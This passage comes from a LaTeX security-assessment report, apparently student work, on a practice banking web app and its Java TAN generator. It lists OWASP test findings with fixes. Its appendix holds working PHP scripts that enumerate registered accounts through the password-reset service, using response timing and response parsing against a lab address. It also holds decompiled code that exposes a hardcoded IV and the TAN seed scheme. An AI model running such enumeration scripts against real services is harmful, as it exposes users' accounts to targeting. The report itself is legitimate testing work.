\section{Testing for Sensitive information sent via unencrypted channels (OTG-CRYPST-003)}
All traffic of our web application is encrypted by HTTPS. There are no items that can be accessed without using HTTPS.

\section{Test business logic data validation (OTG-BUSLOGIC-001)}
We endeavoured to validate all data at the frontend and at the backend side. Further validation is done by third party libraries like PDO.

\section{Testing for the Circumvention of Work Flows (OTG-BUSLOGIC-006)}
We tried to keep the work flows in our web application simple. To our knowledge there is no way to circumvent steps within the work flow.

\section{Testing for Client Side URL Redirect (OTG-CLIENT-004)}
In our web application there is no redirect functionality, where an attacker could inject his own URL.

\section{Testing for CSS Injection (OTG-CLIENT-005)}
Our web application does not support supplying custom CSS. All CSS we used is statically defined.
\chapter{Found Vulnerabilities}
\section{Testing for Weak lock out mechanism (OTG-AUTHN-003)}
\subsection{Observation}
Our app doesn't use any lock out mechanism for the login process. 

Likelihood: high \newline

Impact: medium\newline

Risk: medium\newline
\subsection{Discovery}
This vulnerability was immediately found after completion of the login process.
\subsection{Implications}
An Attacker can run brute force attacks against our application in order to guess user credentials.
\subsection{Recommendation}
We recommend the implementation for the login page. Reactivation of an account should be done by a trusted employee.
\section{Testing for weak password change or reset functionalities (OTH-AUTHN-009)}
\subsection{Observation}
The password reset mechanism of our application is not optimal, since the new password is generated on the server side and sent to the user via email. Sending confidential data via email is not sufficiently secure for a banking application.

Likelihood: low \newline

Impact: high\newline

Risk: medium\newline
\subsection{Discovery}
This vulnerability was discovered during testing of the password change functionality.
\subsection{Implications}
If an attacker has access to the users email account or is able to intercept the users emails in unencrypted form, he can obtain the newly generated password. This could compromise the users bank account. 
\subsection{Recommendation}
We recommend, that the reset functionality is changed, such that passwords are no longer sent via email. One option would be to send the passwords via traditional mail. Another option would be to ask for the answer to an additional security question. If the correct answer is provided the user may change their password via a HTTPS secured page.
\section{Test defenses against application mis-use (OTG-BUSLOGIC-007)}
\subsection{Observation}
In the current application there are no mechanisms implemented to detect intrusion or other attacks. There is also no event logging, except for the standard Apache log files.

Likelihood: high \newline

Impact: low\newline

Risk: medium\newline
\subsection{Discovery}
This vulnerability was discovered while reading the OWASP testing guide.
\subsection{Implications}
If an attacker tries to misuse the system there is no way to recognize these ``unpleasant actions''.
\subsection{Recommendation}
Implement basic event logging and maybe intrusion detection.
\section{Test Upload of Unexpected File Types (OTG-BUSLOGIC-008) and Test Upload of Malicious Files (OTG-BUSLOGIC-009)}
\subsection{Observation}
Currently the user can upload any file type when uploading batch files.

Likelihood: high \newline

Impact: low\newline

Risk: low\newline
\subsection{Discovery}
This vulnerability was discovered by trying to upload arbitrary files as a batch file.
\subsection{Implications}
An attacker can upload any file he wants, it is then saved in the \textit{/tmp} directory with a random name. The batch file parser fails parsing invalid files, and returns with an error. After that the file is removed. That means, unless the attacker has direct access and can for example copy the file, there should be no harm.
\subsection{Recommendation}
Only allow the upload of \textit{.txt} files.

\chapter{Reverse Engineering}

\section{Java-SCS}

\subsection{General}

The decompiler \textit{jd-gui} is able to decompile our SCS software, too. The decompiled code is very similar to what the actual source code looks like. 

\subsection{Recommendations}

In this case it is also advisable to obfuscate the program, to make it harder for an attacker what is going on. 

\section{C-Parser}

\subsection{General}

The disassembly of the parser executable is much more complex then the one of team 8. This is because, it contains much more logic, to validate the input and to store the input accordingly in the database. It also contains code to calculate an md5 hash and to contact a network time server.

The user name and the password of the database are located as strings in the executable file and can thus be easily extracted. But this does not represent any problem, because the parser executable should not be publicly available.

The disassembly also contains further debugging information because the parser was compiled in debugging mode without any optimization instead of in release mode.

Regarding buffer overflows, the parser is, in our opinion very resistant, because we avoided using unsafe functions to copy data between buffers. We always used functions which take a maximum size of bytes to copy (functions with an \textit{n} in the name, like \textit{strncpy} or \textit{strncat})

For storing information in the database we used throughout the hole program prepared statements offered by the mysql C API, to avoid SQL Injection.

\subsection{Recommendations}

For productive use the C-Code should always be compiled in release mode and not in debug mode, to truncate any debug information which could be useful for an attacker.

To get further stack protection the parser should also be compiled with the \textit{-fstack-protector(-all)} of the gcc, just like team 8 did it. 

\part*{Appendix}
\addcontentsline{toc}{part}{Appendix}
\appendix
\chapter{PHP Scripts for Exploiting Vulnerability OTG-BUSLOGIC-004}

\section{PHP Script  for Calculating the response time average of the password recovery service for valid an invalid response email addresses}
\label{appendix:average}


The script uses the function "curl" to send a POST-Request to the Rest-Service "ForgotPassword". The two parameters of this POST Request are the name of the service and the email address for which an new password should be set. With "$responseTime = curl_getinfo($curl,CURLINFO\_TOTAL\_TIME" we can get the response time for this request. This request are sent 100 times for each a valid and an invalid email address. For each an average is computed an shown in the bash.

\begin{lstlisting}
<?php

$validResponseTime = 0.0;
$invalidResponseTime = 0.0;
for ($i = 1; $i <= 100; $i++) {
$validResponseTime += responseTimeForRequest("employee@next9.com");
}
$validAverage = $validResponseTime/100;
echo "Average Response Time for valid address: ".$validAverage."\n";

for ($i = 1; $i <= 100; $i++) {
$invalidResponseTime += responseTimeForRequest("abc@next9.com");
}
$invalidAverage = $invalidResponseTime/100;
echo "Average Response Time for invalid address: ".$invalidAverage."\n";

function responseTimeForRequest($email) {
$service_url = 'https://192.168.56.101/rest/index';
$curl = curl_init($service_url);
$curl_post_data = array(
'service' => "forgotPassword",
'email' => $email );

curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_POST, true);
curl_setopt($curl, CURLOPT_POSTFIELDS, $curl_post_data);
$curl_response = curl_exec($curl);
return $responseTime = curl_getinfo($curl,CURLINFO_TOTAL_TIME);
}

?>
\end{lstlisting}

\chapter{PHP Script for validating email address via response time}
\label{appendix:validate_via_time}

This script decides due to the response time of the an request if an email address is belonging to an existing account or not. The response is received like mentioned in the Script above. If the response is bigger than the threshold, it will be handled as valid and printed to the shell.
\begin{lstlisting}
	<?php
	
	if(!$argv[1])
	die("Please provide list of email adresses");
	$emailList = file($argv[1], FILE_IGNORE_NEW_LINES);
	
	if(!$argv[2])
	die("Please provide threshold");
	
	$threshold = floatval($argv[2]);
	
	echo "Valid Accounts:\n";
	foreach($emailList as $email)        
	if (validateEmail($email,$threshold))
	echo $email."\n";
	
	function validateEmail($email,$threshold) {
	$service_url = 'https://192.168.56.101/rest/index';
	$curl = curl_init($service_url);
	$curl_post_data = array(
	'service' => "forgotPassword",
	'email' => $email );
	
	curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
	curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
	curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($curl, CURLOPT_POST, true);
	curl_setopt($curl, CURLOPT_POSTFIELDS, $curl_post_data);
	$curl_response = curl_exec($curl);
	$responseTime = curl_getinfo($curl,CURLINFO_TOTAL_TIME);
	
	if($responseTime > $threshold)
	return true;
	else
	return false;  
	}
	
	?>
\end{lstlisting}

\chapter{PHP Scripts for exploiting Vulnerability OTG-IDENT-004}
\section{PHP Script for validating email address via response of REST Service}
\label{appendix:validate_via_response}

This Script takes a list of email addresses and prints all of them which are already registered in the system to the shell. To do so it sends a POST Request like the scripts above to the REST Service "forgotPassword". After that it parsed the response, represented by a JSON File. If the field status of this field equals 1, the app generated a new password and sent it via email to the provided address. Else
the provided email denied.
\begin{lstlisting}
<?php

if(!$argv[1])
die("Please provide list of email adresses");
$emailList = file($argv[1], FILE_IGNORE_NEW_LINES);

echo "Valid Accounts:\n";
foreach($emailList as $email)        
if (validateEmail($email))
echo $email."\n";

function validateEmail($email) {
$service_url = 'https://192.168.56.101/rest/index';
$curl = curl_init($service_url);
$curl_post_data = array(
'service' => "forgotPassword",
'email' => $email );

curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_POST, true);
curl_setopt($curl, CURLOPT_POSTFIELDS, $curl_post_data);
$curl_response = curl_exec($curl);
if ($curl_response === false) {
$info = curl_getinfo($curl);
curl_close($curl);
die('error occured during curl exec. Additioanl info: ' . var_export($info));
}
curl_close($curl);
$decoded = json_decode($curl_response,true);
if ($decoded['status']['code'] == 1) {
//die('error occured: ' . $decoded->response->errormessage);
return true;
}
else {
return false;
}
}

?>
\end{lstlisting}

\chapter{Decompiled Java-SCS of NEXT9Bank}

These are the classes of the package \textit{de.next9bank.scs}. The source code of third party libraries has been omitted.


\section{Package \textit{gui.controllers}}

\subsection{CreateTanController}

\begin{lstlisting}
/*     */ package de.next9bank.scs.gui.controllers;
/*     */ 
/*     */ import de.next9bank.scs.gui.GuiError;
/*     */ import de.next9bank.scs.gui.GuiShowTan;
/*     */ import de.next9bank.scs.helpers.TanCreator;
/*     */ import de.next9bank.scs.model.Storage;
/*     */ import java.io.File;
/*     */ import javafx.fxml.FXML;
/*     */ import javafx.scene.Scene;
/*     */ import javafx.scene.control.Button;
/*     */ import javafx.scene.control.TextField;
/*     */ import javafx.scene.image.ImageView;
/*     */ import javafx.scene.input.Clipboard;
/*     */ import javafx.scene.input.ClipboardContent;
/*     */ import javafx.stage.FileChooser;
/*     */ 
/*     */ public class CreateTanController
/*     */ {
/*  19 */   Storage s = Storage.getStorage();
/*     */ 
/*     */   @FXML
/*     */   TextField senderInput;
/*     */ 
/*     */   @FXML
/*     */   TextField receiverInput;
/*     */ 
/*     */   @FXML
/*     */   TextField amountInput;
/*     */ 
/*     */   @FXML
/*     */   Button loadBatchFile;
/*     */ 
/*     */   @FXML
/*     */   Button createBatchTransactionTanButton;
/*     */ 
/*     */   @FXML
/*     */   ImageView imgChecked;
/*     */ 
/*     */   @FXML
/*     */   TextField senderInputBatch;
/*  39 */   private FileChooser batchFileChooser = new FileChooser();
/*     */   private File batchFile;
/*     */ 
/*  47 */   public void createSingleTransactionTan() { if ((!checkIfPositiveInteger(this.senderInput.getText())) || 
/*  48 */       (!checkIfPositiveInteger(this.receiverInput
/*  48 */       .getText())) || 
/*  49 */       (!checkIfPositiveDouble(this.amountInput
/*  49 */       .getText()))) {
/*  50 */       GuiError ge = new GuiError("scs.gui.error.numberMustBePositive");
/*  51 */       return;
/*     */     }
/*     */ 
/*  54 */     String tan = TanCreator.createSingleTan(this.senderInput.getText(), this.receiverInput
/*  55 */       .getText(), this.amountInput.getText());
/*     */ 
/*  57 */     Clipboard clipboard = Clipboard.getSystemClipboard();
/*  58 */     ClipboardContent content = new ClipboardContent();
/*  59 */     content.putString(tan);
/*  60 */     clipboard.setContent(content);
/*     */ 
/*  62 */     GuiShowTan t = new GuiShowTan(tan);
/*  63 */     t.showTan();
/*     */ 
/*  65 */     this.s.setLastTan(tan);
/*  66 */     String newSeed = TanCreator.getNextSeed();
/*  67 */     this.s.writeNewSeed(newSeed); }
/*     */ 
/*     */   public void loadBatchFile()
/*     */   {
/*  71 */     this.batchFile = this.batchFileChooser.showOpenDialog(this.loadBatchFile.getScene()
/*  72 */       .getWindow());
/*  73 */     if (this.batchFile != null)
/*  74 */       this.imgChecked.setVisible(true);
/*     */     else
/*  76 */       this.imgChecked.setVisible(false);
/*     */   }
/*     */ 
/*     */   public void createBatchTransactionTan()
/*     */   {
/*     */     GuiError e;
/*  81 */     if (this.batchFile == null) {
/*  82 */       e = new GuiError("scs.gui.error.noBatchFile");
/*     */     }
/*     */     else {
/*  85 */       if (!checkIfPositiveInteger(this.senderInputBatch.getText())) {
/*  86 */         GuiError ge = new GuiError("scs.gui.error.numberMustBePositive");
/*  87 */         return;
/*     */       }
/*     */ 
/*  90 */       String tan = TanCreator.createBatchTan(this.senderInputBatch.getText(), this.batchFile);
/*     */ 
/*  93 */       Clipboard clipboard = Clipboard.getSystemClipboard();
/*  94 */       ClipboardContent content = new ClipboardContent();
/*  95 */       content.putString(tan);
/*  96 */       clipboard.setContent(content);
/*     */ 
/*  98 */       GuiShowTan t = new GuiShowTan(tan);
/*  99 */       t.showTan();
/*     */ 
/* 101 */       this.s.setLastTan(tan);
/* 102 */       String newSeed = TanCreator.getNextSeed();
/* 103 */       this.s.writeNewSeed(newSeed);
/*     */     }
/*     */   }
/*     */ 
/*     */   public boolean checkIfPositiveInteger(String input) {
/*     */     try {
/* 109 */       int i = Integer.parseInt(input);
/* 110 */       if (i <= 0) {
/* 111 */         throw new Exception();
/*     */       }
/* 113 */       return true; } catch (Exception e) {
/*     */     }
/* 115 */     return false;
/*     */   }
/*     */ 
/*     */   public boolean checkIfPositiveDouble(String input)
/*     */   {
/*     */     try
/*     */     {
/* 122 */       double i = Double.parseDouble(input);
/* 123 */       if (i <= 0.0D) {
/* 124 */         throw new Exception();
/*     */       }
/* 126 */       return true; } catch (Exception e) {
/*     */     }
/* 128 */     return false;
/*     */   }
/*     */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.gui.controllers.CreateTanController
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\subsection{MainController}

\begin{lstlisting}
package de.next9bank.scs.gui.controllers;

public class MainController
{
}

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.gui.controllers.MainController
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\subsection{MenuController}

\begin{lstlisting}
/*     */ package de.next9bank.scs.gui.controllers;
/*     */ 
/*     */ import de.next9bank.scs.gui.GuiError;
/*     */ import de.next9bank.scs.model.Storage;
/*     */ import java.io.File;
/*     */ import java.io.IOException;
/*     */ import java.util.ResourceBundle;
/*     */ import javafx.application.Platform;
/*     */ import javafx.fxml.FXML;
/*     */ import javafx.fxml.FXMLLoader;
/*     */ import javafx.scene.Node;
/*     */ import javafx.scene.Scene;
/*     */ import javafx.scene.control.Menu;
/*     */ import javafx.scene.control.MenuBar;
/*     */ import javafx.scene.layout.BorderPane;
/*     */ import javafx.scene.layout.Pane;
/*     */ import javafx.stage.FileChooser;
/*     */ import javafx.stage.Stage;
/*     */ import javafx.stage.StageStyle;
/*     */ 
/*     */ public class MenuController
/*     */ {
/*     */ 
/*     */   @FXML
/*     */   private MenuBar menuBar;
/*     */ 
/*     */   @FXML
/*     */   private Menu file;
/*     */   Storage s;
/*  33 */   private FileChooser smartCardFileChooser = new FileChooser();
/*     */ 
/*     */   public MenuController() {
/*  36 */     this.s = Storage.getStorage();
/*     */   }
/*     */ 
/*     */   public void loadSmartCard()
/*     */   {
/*  44 */     showMainWindow();
/*  45 */     File smartCardFile = this.smartCardFileChooser.showOpenDialog(this.menuBar
/*  46 */       .getScene().getWindow());
/*  47 */     this.s.setSmartCardFile(smartCardFile);
/*  48 */     if (smartCardFile != null) {
/*  49 */       this.s.readSmartCardFile();
/*     */     }
/*  51 */     if ((this.s.getSmartCardFile() != null) && (this.s.getPrimaryStage() != null)) {
/*  52 */       this.s.getPrimaryStage().getScene().lookup("#imgChecked")
/*  53 */         .setVisible(true);
/*     */     }
/*  54 */     else if ((this.s.getSmartCardFile() == null) && (this.s.getPrimaryStage() != null))
/*  55 */       this.s.getPrimaryStage().getScene().lookup("#imgChecked")
/*  56 */         .setVisible(false);
/*     */   }
/*     */ 
/*     */   public void createTan()
/*     */   {
/*  64 */     if (this.s.getSmartCardFile() == null)
/*  65 */       new GuiError("scs.gui.error.noSmartCard");
/*     */     else
/*  67 */       showCreateTanWindow();
/*     */   }
/*     */ 
/*     */   public void showAboutDialogue()
/*     */   {
/*     */     try
/*     */     {
/*  77 */       BorderPane about = (BorderPane)FXMLLoader.load(
/*  78 */         getClass().getResource("/layouts/About.fxml"), this.s
/*  79 */         .getStringBundle());
/*     */ 
/*  81 */       Stage dialog = new Stage();
/*  82 */       dialog.initStyle(StageStyle.UTILITY);
/*  83 */       dialog.setTitle(this.s.getStringBundle()
/*  84 */         .getString("scs.gui.about.title"));
/*     */ 
/*  85 */       Scene scene = new Scene(about);
/*  86 */       dialog.setScene(scene);
/*  87 */       dialog.show();
/*     */     }
/*     */     catch (IOException e)
/*     */     {
/*  91 */       e.printStackTrace();
/*     */     }
/*     */   }
/*     */ 
/*     */   public void showCreateTanWindow()
/*     */   {
/*     */     try
/*     */     {
/* 100 */       if (this.s.getPrimaryStage() != null) {
/* 101 */         Pane p = (Pane)FXMLLoader.load(
/* 102 */           getClass().getResource("/layouts/CreateTan.fxml"), this.s
/* 103 */           .getStringBundle());
/* 104 */         this.s.getPrimaryStage().setScene(new Scene(p));
/*     */       }
/*     */     }
/*     */     catch (IOException e) {
/* 108 */       e.printStackTrace();
/*     */     }
/*     */   }
/*     */ 
/*     */   public void showMainWindow()
/*     */   {
/*     */     try
/*     */     {
/* 117 */       if (this.s.getPrimaryStage() != null)
/*     */       {
/* 119 */         Pane root = (Pane)FXMLLoader.load(
/* 120 */           getClass().getResource("/layouts/Main.fxml"), this.s
/* 121 */           .getStringBundle());
/* 122 */         this.s.getPrimaryStage().setScene(new Scene(root));
/*     */       }
/*     */     }
/*     */     catch (IOException e) {
/* 126 */       e.printStackTrace();
/*     */     }
/*     */   }
/*     */ 
/*     */   public void close()
/*     */   {
/* 134 */     Platform.exit();
/*     */   }
/*     */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.gui.controllers.MenuController
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}


\section{Package \textit{gui}}

\subsection{GuiEnterPin}

\begin{lstlisting}
// INTERNAL ERROR //

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.gui.GuiEnterPin
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\subsection{GuiError}

\begin{lstlisting}
/*    */ package de.next9bank.scs.gui;
/*    */ 
/*    */ import de.next9bank.scs.model.Storage;
/*    */ import java.util.ResourceBundle;
/*    */ import org.controlsfx.dialog.Dialogs;
/*    */ 
/*    */ public class GuiError
/*    */ {
/*    */   Storage s;
/*    */ 
/*    */   public GuiError(String errorMsg)
/*    */   {
/* 15 */     this.s = Storage.getStorage();
/*    */ 
/* 17 */     Dialogs.create().owner(this.s.getPrimaryStage())
/* 18 */       .title(this.s
/* 18 */       .getStringBundle().getString("scs.gui.error.title"))
/* 19 */       .message(this.s
/* 19 */       .getStringBundle().getString(errorMsg)).showError();
/*    */   }
/*    */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.gui.GuiError
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\subsection{GuiShowTan}

\begin{lstlisting}
/*    */ package de.next9bank.scs.gui;
/*    */ 
/*    */ import de.next9bank.scs.model.Storage;
/*    */ import java.util.ResourceBundle;
/*    */ import org.controlsfx.dialog.Dialogs;
/*    */ 
/*    */ public class GuiShowTan
/*    */ {
/* 10 */   Storage s = Storage.getStorage();
/*    */   String tan;
/*    */ 
/*    */   public GuiShowTan(String tan)
/*    */   {
/* 16 */     this.tan = tan;
/*    */   }
/*    */ 
/*    */   public void showTan()
/*    */   {
/* 21 */     Dialogs.create()
/* 22 */       .owner(this.s
/* 22 */       .getPrimaryStage())
/* 23 */       .title(this.s
/* 23 */       .getStringBundle()
/* 24 */       .getString("scs.gui.dialog.tan.title"))
/* 25 */       .message(this.s
/* 26 */       .getStringBundle().getString("scs.gui.dialog.tan.tan") + " " + this.tan)
/* 27 */       .showInformation();
/*    */   }
/*    */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.gui.GuiShowTan
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\section{Package \textit{helpers}}

\subsection{Encryption}

\begin{lstlisting}
/*    */ package de.next9bank.scs.helpers;
/*    */ 
/*    */ import java.security.MessageDigest;
/*    */ import java.security.NoSuchAlgorithmException;
/*    */ import java.util.Arrays;
/*    */ 
/*    */ public class Encryption
/*    */ {
/*    */   public static String Encrypt(String data, String password)
/*    */   {
/* 10 */     MCrypt mcrypt = new MCrypt(password + "0000000000");
/*    */     try
/*    */     {
/* 13 */       return MCrypt.bytesToHex(mcrypt.encrypt(data));
/*    */     }
/*    */     catch (Exception e) {
/*    */     }
/* 17 */     return null;
/*    */   }
/*    */ 
/*    */   public static String Decrypt(String encryptedData, String password)
/*    */   {
/* 23 */     MCrypt mcrypt = new MCrypt(password + "0000000000");
/*    */     try
/*    */     {
/* 26 */       return new String(mcrypt.decrypt(encryptedData)).trim();
/*    */     }
/*    */     catch (Exception e) {
/*    */     }
/* 30 */     return null;
/*    */   }
/*    */ 
/*    */   private static byte[] generateKey(byte[] key)
/*    */     throws NoSuchAlgorithmException
/*    */   {
/* 44 */     MessageDigest sha = MessageDigest.getInstance("SHA-1");
/* 45 */     key = sha.digest(key);
/*    */ 
/* 47 */     key = Arrays.copyOf(key, 16);
/* 48 */     return key;
/*    */   }
/*    */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.helpers.Encryption
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\subsection{MCrypt}

\begin{lstlisting}
/*     */ package de.next9bank.scs.helpers;
/*     */ 
/*     */ import java.security.NoSuchAlgorithmException;
/*     */ import javax.crypto.Cipher;
/*     */ import javax.crypto.NoSuchPaddingException;
/*     */ import javax.crypto.spec.IvParameterSpec;
/*     */ import javax.crypto.spec.SecretKeySpec;
/*     */ 
/*     */ public class MCrypt
/*     */ {
/*  19 */   private String iv = "fedcba9876543210";
/*     */   private IvParameterSpec ivspec;
/*     */   private SecretKeySpec keyspec;
/*     */   private Cipher cipher;
/*     */ 
/*     */   public MCrypt(String secretKey)
/*     */   {
/*  25 */     this.ivspec = new IvParameterSpec(this.iv.getBytes());
/*     */ 
/*  27 */     this.keyspec = new SecretKeySpec(secretKey.getBytes(), "AES");
/*     */     try
/*     */     {
/*  30 */       this.cipher = Cipher.getInstance("AES/CBC/NoPadding");
/*     */     }
/*     */     catch (NoSuchAlgorithmException e) {
/*  33 */       e.printStackTrace();
/*     */     }
/*     */     catch (NoSuchPaddingException e) {
/*  36 */       e.printStackTrace();
/*     */     }
/*     */   }
/*     */ 
/*     */   public byte[] encrypt(String text) throws Exception {
/*  41 */     if ((text == null) || (text.length() == 0)) {
/*  42 */       throw new Exception("Empty string");
/*     */     }
/*  44 */     byte[] encrypted = null;
/*     */     try
/*     */     {
/*  47 */       this.cipher.init(1, this.keyspec, this.ivspec);
/*     */ 
/*  49 */       encrypted = this.cipher.doFinal(padString(text).getBytes());
/*     */     } catch (Exception e) {
/*  51 */       throw new Exception("[encrypt] " + e.getMessage());
/*     */     }
/*     */ 
/*  54 */     return encrypted;
/*     */   }
/*     */ 
/*     */   public byte[] decrypt(String code) throws Exception {
/*  58 */     if ((code == null) || (code.length() == 0)) {
/*  59 */       throw new Exception("Empty string");
/*     */     }
/*  61 */     byte[] decrypted = null;
/*     */     try
/*     */     {
/*  64 */       this.cipher.init(2, this.keyspec, this.ivspec);
/*     */ 
/*  66 */       decrypted = this.cipher.doFinal(hexToBytes(code));
/*     */     } catch (Exception e) {
/*  68 */       throw new Exception("[decrypt] " + e.getMessage());
/*     */     }
/*  70 */     return decrypted;
/*     */   }
/*     */ 
/*     */   public static String bytesToHex(byte[] data) {
/*  74 */     if (data == null) {
/*  75 */       return null;
/*     */     }
/*     */ 
/*  78 */     int len = data.length;
/*  79 */     String str = "";
/*  80 */     for (int i = 0; i < len; i++) {
/*  81 */       if ((data[i] & 0xFF) < 16)
/*  82 */         str = str + "0" + Integer.toHexString(data[i] & 0xFF);
/*     */       else
/*  84 */         str = str + Integer.toHexString(data[i] & 0xFF);
/*     */     }
/*  86 */     return str;
/*     */   }
/*     */ 
/*     */   public static byte[] hexToBytes(String str) {
/*  90 */     if (str == null)
/*  91 */       return null;
/*  92 */     if (str.length() < 2) {
/*  93 */       return null;
/*     */     }
/*  95 */     int len = str.length() / 2;
/*  96 */     byte[] buffer = new byte[len];
/*  97 */     for (int i = 0; i < len; i++) {
/*  98 */       buffer[i] = ((byte)Integer.parseInt(str
/*  99 */         .substring(i * 2, i * 2 + 2), 
/*  99 */         16));
/*     */     }
/* 101 */     return buffer;
/*     */   }
/*     */ 
/*     */   private static String padString(String source)
/*     */   {
/* 106 */     char paddingChar = ' ';
/* 107 */     int size = 16;
/* 108 */     int x = source.length() % size;
/* 109 */     int padLength = size - x;
/*     */ 
/* 111 */     for (int i = 0; i < padLength; i++) {
/* 112 */       source = source + paddingChar;
/*     */     }
/*     */ 
/* 115 */     return source;
/*     */   }
/*     */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.helpers.MCrypt
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\subsection{TanCreator}

\begin{lstlisting}
/*     */ package de.next9bank.scs.helpers;
/*     */ 
/*     */ import com.google.common.hash.HashCode;
/*     */ import com.google.common.hash.Hashing;
/*     */ import com.google.common.io.Files;
/*     */ import de.next9bank.scs.model.Storage;
/*     */ import java.io.File;
/*     */ import java.io.IOException;
/*     */ import java.io.UnsupportedEncodingException;
/*     */ import java.security.MessageDigest;
/*     */ import java.security.NoSuchAlgorithmException;
/*     */ 
/*     */ public class TanCreator
/*     */ {
/*  17 */   static Storage s = Storage.getStorage();
/*     */ 
/*     */   public static String createSingleTan(String sender, String receiver, String amount)
/*     */   {
/*  34 */     String hash = generateHash(s.getSeed() + receiver + amount + sender);
/*  35 */     return getTanFromHash(hash);
/*     */   }
/*     */ 
/*     */   public static String createBatchTan(String sender, File file)
/*     */   {
/*     */     try
/*     */     {
/*  47 */       HashCode md5 = Files.hash(file, Hashing.md5());
/*  48 */       String md5Hex = md5.toString();
/*  49 */       String hash = generateHash(s.getSeed() + sender + md5Hex);
/*  50 */       return getTanFromHash(hash);
/*     */     } catch (IOException e) {
/*  52 */       e.printStackTrace();
/*  53 */     }return null;
/*     */   }
/*     */ 
/*     */   private static String getTanFromHash(String hash)
/*     */   {
/*  65 */     hash = hash.substring(0, 6);
/*  66 */     int hashInt = Integer.parseInt(hash, 16);
/*  67 */     hash = String.valueOf(hashInt).substring(0, 6);
/*  68 */     return hash;
/*     */   }
/*     */ 
/*     */   public static String getNextSeed()
/*     */   {
/*  77 */     String hash = generateHash(s.getSeed());
/*  78 */     return hash;
/*     */   }
/*     */ 
/*     */   private static String generateHash(String toHash)
/*     */   {
/*  88 */     MessageDigest md = null;
/*  89 */     byte[] hash = null;
/*     */     try {
/*  91 */       md = MessageDigest.getInstance("SHA-512");
/*  92 */       hash = md.digest(toHash.getBytes("UTF-8"));
/*     */     } catch (NoSuchAlgorithmException e) {
/*  94 */       e.printStackTrace();
/*     */     } catch (UnsupportedEncodingException e) {
/*  96 */       e.printStackTrace();
/*     */     }
/*  98 */     return convertToHex(hash);
/*     */   }
/*     */ 
/*     */   private static String convertToHex(byte[] raw)
/*     */   {
/* 112 */     StringBuffer sb = new StringBuffer();
/* 113 */     for (int i = 0; i < raw.length; i++) {
/* 114 */       sb.append(Integer.toString((raw[i] & 0xFF) + 256, 16)
/* 115 */         .substring(1));
/*     */     }
/*     */ 
/* 117 */     return sb.toString();
/*     */   }
/*     */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.helpers.TanCreator
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\section{Package \textit{model}}

\subsection{Storage}

\begin{lstlisting}
/*     */ package de.next9bank.scs.model;
/*     */ 
/*     */ import de.next9bank.scs.gui.GuiEnterPin;
/*     */ import de.next9bank.scs.gui.GuiError;
/*     */ import de.next9bank.scs.helpers.Encryption;
/*     */ import java.io.BufferedWriter;
/*     */ import java.io.File;
/*     */ import java.io.FileWriter;
/*     */ import java.io.IOException;
/*     */ import java.nio.file.Files;
/*     */ import java.util.ResourceBundle;
/*     */ import javafx.stage.Stage;
/*     */ 
/*     */ public class Storage
/*     */ {
/*  18 */   private static Storage s = null;
/*     */   private File smartCardFile;
/*     */   private ResourceBundle stringBundle;
/*     */   private Stage primaryStage;
/*     */   private String seed;
/*     */   private String lastTan;
/*     */   private String password;
/*     */ 
/*     */   private Storage()
/*     */   {
/*  34 */     ResourceBundle stringBundle = ResourceBundle.getBundle("strings");
/*  35 */     setStringBundle(stringBundle);
/*     */   }
/*     */ 
/*     */   public static Storage getStorage()
/*     */   {
/*  44 */     if (s == null) {
/*  45 */       s = new Storage();
/*     */     }
/*  47 */     return s;
/*     */   }
/*     */ 
/*     */   public File getSmartCardFile() {
/*  51 */     return this.smartCardFile;
/*     */   }
/*     */ 
/*     */   public void setSmartCardFile(File smartCardFile) {
/*  55 */     this.smartCardFile = smartCardFile;
/*     */   }
/*     */ 
/*     */   public ResourceBundle getStringBundle() {
/*  59 */     return this.stringBundle;
/*     */   }
/*     */ 
/*     */   public void setStringBundle(ResourceBundle stringBundle) {
/*  63 */     this.stringBundle = stringBundle;
/*     */   }
/*     */ 
/*     */   public Stage getPrimaryStage() {
/*  67 */     return this.primaryStage;
/*     */   }
/*     */ 
/*     */   public void setPrimaryStage(Stage primaryStage) {
/*  71 */     this.primaryStage = primaryStage;
/*     */   }
/*     */ 
/*     */   public String getSeed() {
/*  75 */     return this.seed;
/*     */   }
/*     */ 
/*     */   public boolean setSeed(String seed) {
/*  79 */     this.seed = seed;
/*  80 */     return true;
/*     */   }
/*     */ 
/*     */   public boolean writeNewSeed(String seed) {
/*  84 */     setSeed(seed);
/*     */     try
/*     */     {
